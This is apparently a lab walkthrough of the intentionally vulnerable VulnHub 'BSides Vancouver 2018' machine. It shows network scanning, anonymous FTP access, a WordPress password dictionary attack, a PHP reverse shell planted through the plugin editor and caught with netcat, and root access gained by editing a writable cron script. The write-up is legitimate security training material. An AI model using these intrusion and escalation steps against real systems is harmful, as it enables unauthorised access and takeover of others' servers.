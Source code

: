 ```yaml
---
title: VulnHub - BSides Vancouver 2018
author: ret2x
date: 2023-08-24 12:00:00 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, sqli, lfi, wordpress]
image:
    path: /assets/images/bsides/front.png
---
```


**Description:** A linux machine that requires a simple enumeration, perform a dictionry attack against the Wordpress login form, and edit a plugin to gain the initial shell. Insecure file permissions and a cron job allowed to get root privileges.

**Author:** abatchy

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/)

## Information Gathering

### Host Discovery

The following ping scan discovered the target server.

```console
root@parrot:~$ for n in $(seq 1 254); do ping -c 1 -W 1 192.168.142.$n 2>&1 >/dev/null && echo "Host 192.168.142.$n Up"; done
Host 192.168.142.130 Up
```

### Port Scanning

The full TCP port scan found three open ports.

```console
root@parrot:~$ nmap -n -v -p- -T4 -Pn 192.168.142.130 -oG nmap/port-scan.txt
...
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### Service Enumeration

The aggressive scanning performed with nmap against the target revealed that the vsftpd service has enabled the anonymous login, and an instance of wordpress CMS appears on the web server.

```console
root@parrot:~$ nmap -n -v -p21,22,80 -A -Pn 192.168.142.130 -oN nmap/service-enum.txt
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03  2018 public
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.142.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 859f8b5844973398ee98b0c185603c41 (DSA)
|   2048 cf1a04e17ba3cd2bd1af7db330e0a09d (RSA)
|_  256 97e5287a314d0a89b2b02581d536634c (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn\'t have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

### FTP Enumeration

With the following commands the remote FTP directory was mounted to the local file tree, and a backup file with users was found.

```console
root@parrot:~$ mkdir /mnt/ftp
root@parrot:~$ curlftpfs anonymous:@192.168.142.130 /mnt/ftp 
root@parrot:~$ ls /mnt/ftp/public 
users.txt.bk
root@parrot:~$ cp -r /mnt/ftp/public .
```

```console
root@parrot:~$ cat users.txt.bk 
abatchy
john
mai
anne
doomguy
```

### Web Enumeration

Browsing to **/backup_wordpress** directry, we access to an instance of Wordpress CMS.

![](/assets/images/bsides/screenshot-1.png)

By listing the users, only two can log in to Wordpress, thus filtering out the others.

```console
root@parrot:~$ for n in $(seq 1 10); do curl -s "http://192.168.142.130/backup_wordpress/?author=$n" | grep -i 'author:' | sed 's/.*d">\(.*\)<\/s.*/\1/'; done | tee wp-users.txt
admin
john
```

With the information obtained, a dictioray attack is carried out against the Wordpress log in form. I have written a python script to accomplish this work.

```console
root@parrot:~$ git clone https://github.com/ret2x-tools/wp-brute-force.git
```

John's password was found.

```console
root@parrot:~$ python WPbf.py -u http://192.168.142.130/backup_wordpress -L wp-users.txt -P /opt/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
Success => john:enigma
```

## Exploitation

Log in with the credentials found.

![](/assets/images/bsides/screenshot-2.png)

![](/assets/images/bsides/screenshot-3.png)

Since John has administrator privileges it is possible to edit a plugin to write a php reverse shell.

Select Plugins -> Editor, write a php reverse shell, in this case I have edited the **akismet** plugin, and click **Update File**.

![](/assets/images/bsides/screenshot-4.png)

Start a netcat listener on port 443, and perform a web request to the **akismet** plugin.

```console
root@parrot:~$ curl -s "http://192.168.142.130/backup_wordpress/wp-content/plugins/akismet/akismet.php"
```

```console
root@parrot:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.142.1] from (UNKNOWN) [192.168.142.130] 43587
bash: no job control in this shell
www-data@bsides2018:/var/www/backup_wordpress/wp-content/plugins/akismet$ script -qc /bin/bash /dev/null
<ent/plugins/akismet$ script -qc /bin/bash /dev/null                         
www-data@bsides2018:/var/www/backup_wordpress/wp-content/plugins/akismet$
```

By listing the SUID binaries, the **/usr/local/bin/cleanup** binary was found.

```console
www-data@bsides2018:/tmp$ find / -writable -type f 2>/dev/null | grep -v 'proc\|sys'
...
/usr/local/bin/cleanup
```

This is a bash script that removes the apache log files, which is executed every minute by a cron job, and the most important is that we have write permissions.

```console
www-data@bsides2018:/tmp$ cat /usr/local/bin/cleanup
#!/bin/sh

rm -rf /var/log/apache2/*	# Clean those damn logs!!
```

```console
www-data@bsides2018:/tmp$ tail -n 2 /etc/crontab
*  *    * * *   root    /usr/local/bin/cleanup
#
```

## Privilege Escalation

### Cron Job

The following command append to **/usr/local/bin/cleanup** file the instruction to run the **akismet** plugin every minute by the cron job.

```console
www-data@bsides2018:/tmp$ echo "php -f /var/www/backup_wordpress/wp-content/plugins/akismet/akismet.php" >> /usr/local/bin/cleanup
```

Start a netcat listenet on port 443 and wait every minute a root shell.

```console
root@parrot:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.142.1] from (UNKNOWN) [192.168.142.130] 43588
bash: no job control in this shell
root@bsides2018:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```console
root@bsides2018:~# cat flag.txt
cat flag.txt
Congratulations!

If you can read this, that means you were able to obtain root permissions on this VM.
You should be proud!

There are multiple ways to gain access remotely, as well as for privilege escalation.
Did you find them all?

@abatchy17
```
